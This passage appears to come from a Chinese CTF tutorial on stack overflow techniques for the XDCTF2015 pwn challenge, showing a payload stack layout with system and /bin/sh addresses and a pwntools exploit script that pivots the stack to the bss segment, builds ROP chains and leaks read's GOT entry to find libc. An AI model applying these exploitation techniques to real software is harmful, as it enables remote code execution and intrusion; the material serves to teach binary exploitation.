  ```java 
-----------------------   

  ``` 
  
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
第三次发送的payload 
 
 ```java 
  -----------------------      
system_addr              ｜0x804a84c
-----------------------        
bbbb                           ｜0x804a850
-----------------------      
 /bin/sh_addr              ｜0x804a854
-----------------------     

  ``` 
  
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
exp： 
 
 ```java 
  from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
elf = ELF('bed0c68697f74e649f3e1c64ff7838b8')
r = process('./bed0c68697f74e649f3e1c64ff7838b8')
rop = ROP('./bed0c68697f74e649f3e1c64ff7838b8')

offset = 108 ## find stack overflow length
bss_addr = elf.bss()
leave_ret = 0x08048481 ## ROPgadget --binary bed0c68697f74e649f3e1c64ff7838b8  --only 'leave|ret'
read_plt = elf.plt['read']
read_got = elf.got['read']
libc = ELF('/usr/lib/i386-linux-gnu/libc-2.24.so')
read_libc = libc.symbols['read']
system_libc = libc.symbols['system']

r.recvuntil('Welcome to XDCTF2015~!\n')
# gdb.attach(r)
## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
## padding 108 
rop.raw('a' * offset)
## faker_ebp1
rop.raw(base_stage)
### stack pivoting, set esp = base_stage
rop.raw(flat(read_plt,leave_ret,0, base_stage, 100))
# print rop.dump()
r.sendline(rop.chain())

## getshell
rop = ROP('./bed0c68697f74e649f3e1c64ff7838b8')
rop.raw(base_stage)
rop.write(1, read_got, 0x4)
rop.read(0,base_stage+0x2c,0x100)
rop.raw('a' * ( 50 - len(rop.chain())))
print rop.dump()
gdb.attach(r)
r.sendline(rop.chain())

libc.address = u32(r.recv(4)) - read_libc
 ```